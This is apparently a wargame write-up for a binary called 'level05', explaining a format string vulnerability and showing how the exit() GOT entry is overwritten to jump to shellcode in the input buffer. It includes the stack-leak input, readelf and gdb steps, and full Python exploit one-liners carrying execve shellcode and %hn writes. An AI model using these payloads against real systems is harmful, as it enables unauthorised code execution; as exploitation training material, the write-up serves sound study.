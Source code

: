 # level05
RELRO protection is disable  
Presumption: Overwrite the __Global Offset Table (GOT)__

## Step 1: Understand the program
1. The program reads 100 bytes from `stdin` with `fgets` and store it in a buffer of 100 bytes
2. The program iterates over the buffer, checks if the char is an uppercase and convert it to lowercase if true (useless)
3. The program prints the buffer with an unprotected printf. __This is a format string vulnerablity__
4. finally, the program exits with `exit(0)`


## Step 2
Leak the stack to find somethings interesting

```bash
$ ./level05 
aaaa %x %x %x %x %x %x %x %x %x %x %x %x
```
```console
aaaa 64 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 61616161 20782520 25207825
```

Yeah ! We have access to the buffer thanks to the the __10th__ specifer `%x`.


## Goal 
Replace the `exit()` relocation address in the GOT to target our shellcode instead


## Step 3

Find the __GOT__ entry of `exit()`
```bash
readelf -r level05 | grep exit
```
```console
080497e0  00000407 R_386_JUMP_SLOT   00000000   exit
```

The address of `exit()` is stored at `0x080497e0` in the __GOT__


## Step 4

Find the address where the buffer is stored, to ensure that when `exit()` is called, the program jump to the buffer intead of `exit()`

> Assuming we have put an exploit in the buffer

- break after `fgets`
- Enter multiple `A` to fill the buffer
```bash
(gdb) x/s $esp+40
0xffffd6a8:	 'A' <repeats 99 times>
```
buffer is at `0xffffd6a8` (4294956712 in decimal)

We need to print 4294956716 with printf. Use `%n` will write this number at the address specified by the 10th argument (int *)

> 4294956716 because shellcode is at buffer + 4


## Exploit
```bash
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "%4294956689d" + "%10$n"'; cat) | /home/users/level05/level05
```

4294956689 = 4294956716 - 27

> 27 is the number of charcaters ever printed

> It doesn't work because print `4294956689` characters is too much

## Necessary to optimize
```bash
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "%54925d" + "%10$hn" + "%10579d" + "%11$hn" '; cat) | /home/users/level05/level05
```

We want to write 4 bytes `ffffd6a8` at `0x080497e0`  
We can write two bytes at a time with `%hn`:
- `0xd6a8` at `0x080497e0`
- `0xffff` at `0x080497e2`

> %hn: h mean short. Used to write in a `int16_t *` instead of `int32_t *`